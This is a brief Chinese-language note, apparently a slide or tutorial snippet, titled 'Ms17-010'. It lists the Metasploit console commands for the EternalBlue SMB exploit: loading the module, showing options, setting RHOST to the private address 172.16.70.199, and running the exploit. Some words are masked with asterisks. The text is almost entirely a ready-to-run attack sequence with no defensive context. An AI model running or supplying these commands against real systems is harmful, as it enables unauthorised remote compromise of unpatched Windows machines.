

# Ms17-010
使用模块
msf > use exploit/windows/smb/ms17_010_eternalblue
查看可设置的选项
msf exploit(ms17_010_eternalblue) > show options
设置***目标ip
msf exploit(ms17_010_eternalblue) > set RHOST 172.16.70.199
执行***
msf exploit(ms17_010_eternalblue) > exploit